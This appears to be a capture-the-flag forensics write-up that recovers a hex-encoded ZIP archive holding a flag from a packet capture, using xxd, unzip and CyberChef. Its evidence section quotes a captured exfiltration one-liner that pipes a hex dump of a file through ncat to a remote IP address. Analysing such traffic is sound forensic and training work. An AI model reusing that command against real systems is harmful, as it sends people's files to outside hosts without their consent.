# Cap ou Pcap

## Summary

During analysis of a provided pcap, a TCP stream was found that contained a hex-encoded ZIP archive. The archive (`flag.zip`) was reconstructed from the captured payload, extracted, and contained a flag file. This write-up documents the evidence, analysis steps, exact commands used to recover the ZIP, findings, and recommendations.

---

## Evidence

Relevant extracted TCP stream content (two notable fragments observed in order):

1. **Plaintext transcript (user interaction captured in the stream):**

   * `id` output: `uid=1001(fcsc) gid=1001(fcsc) groups=1001(fcsc)`
   * `pwd` output: `/home/fcsc`
   * `ls Documents` shows `flag.zip`
   * `file Documents/flag.zip` reports: `Zip archive data, at least v2.0 to extract`
   * User runs: `xxd -p Documents/flag.zip | tr -d '
     ' | ncat 172.20.20.133 20200` — indicating the ZIP was hex-dumped and sent over the network.

2. **Captured TCP payload containing hex data (saved from the stream):**

   * A long hex string beginning with `504b0304...` (ZIP file signature `PK`) was observed and saved.

(Forensic note: the presence of `xxd -p` together with `ncat` strongly suggests the raw hex of a file was transmitted over the TCP connection; the captured hex begins with the expected ZIP signature.)

---

## Objective

Reconstruct the `flag.zip` file from the captured hex payload and extract the contained file(s) to reveal the flag.

---

## Analysis and Methodology

1. **Confirm the nature of the captured data**

   * The hex payload begins with `504b0304`, which corresponds to the ASCII `PK` signature used by ZIP archives. This confirms the payload is likely a ZIP file encoded as hex.

2. **Extract and read flag**

   * Use `unzip` to extract files and `cat` to read the flag file.

3. **Validation**

   * Confirm successful extraction and that the extracted file(s) match what was shown in the plaintext interaction (`flag.zip` contains `flag.txt` or similar).

---

## Exact commands used (reproducible steps)

Save the hex payload to a file and convert it to binary (example uses a here-doc; replace the hex blob with the captured payload):

```bash
cat > zip_hex.txt <<'HEX'
504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000
HEX

xxd -r -p zip_hex.txt > flag.zip

# Verify file type
file flag.zip

# List archive contents without extracting
unzip -l flag.zip

# Extract archive
unzip flag.zip

# Display extracted files (example assumes a file named flag.txt)
cat flag.txt
```

**Alternative (CyberChef):**

* Paste the hex into CyberChef and apply the operations: `From Hex` → `Unzip`.
